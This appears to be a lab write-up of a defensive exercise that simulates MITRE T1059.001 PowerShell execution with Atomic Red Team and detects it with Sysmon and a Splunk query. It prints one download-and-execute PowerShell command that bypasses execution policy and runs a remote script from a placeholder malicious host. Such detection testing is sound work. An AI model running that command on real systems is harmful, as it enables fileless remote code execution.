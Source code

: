 # T1059.001 – PowerShell Execution (Atomic Red Team)

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🎯 Description

We use an Atomic Red Team payload to simulate a fileless PowerShell attack that downloads and runs a script remotely. This simulates common adversary behavior seen in malware, ransomware loaders, and APTs.

### Atomic Command Used:

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This payload:

* Bypasses PowerShell execution policies
* Uses `IEX` (Invoke-Expression) to run code from memory
* Pulls down remote scripts using `Net.WebClient`

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* **Sysmon Event ID 1** logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Use of `-nop`, `-exec bypass`
* `IEX`, `Net.WebClient`, or `DownloadString`
* Long base64 or obfuscated strings

---

## ✅ Result

* The attack was logged by Sysmon and successfully forwarded to Splunk.
* Analysts can see full command line arguments in Splunk's search.
* The query clearly shows the suspicious PowerShell activity.

---

## 📸 Screenshots

### 1. PowerShell attack launched from ART:

**File:** `T1059.001 attack.PNG`
![PowerShell Attack](../screenshots/T1059.001%20attack.PNG)

### 2. Splunk confirms detection:

**File:** `shows that T1059.001 can spot this kind of attack.PNG`
![Detection Confirmed](../screenshots/shows%20that%20T1059.001%20can%20spot%20this%20kind%20of%20attack.PNG)

### 3. Manual search for PowerShell:

**File:** `we can search powershell as well to see.PNG`
![Search PowerShell](../screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 4. Explanation of what the command does:

**File:** `what the command does.PNG`
![Command Explained](../screenshots/what%20the%20command%20does.PNG)

### 5. What to look for in command line activity:

**File:** `what to look for in powershell.PNG`
![Indicators](../screenshots/what%20to%20look%20for%20in%20powershell.PNG)
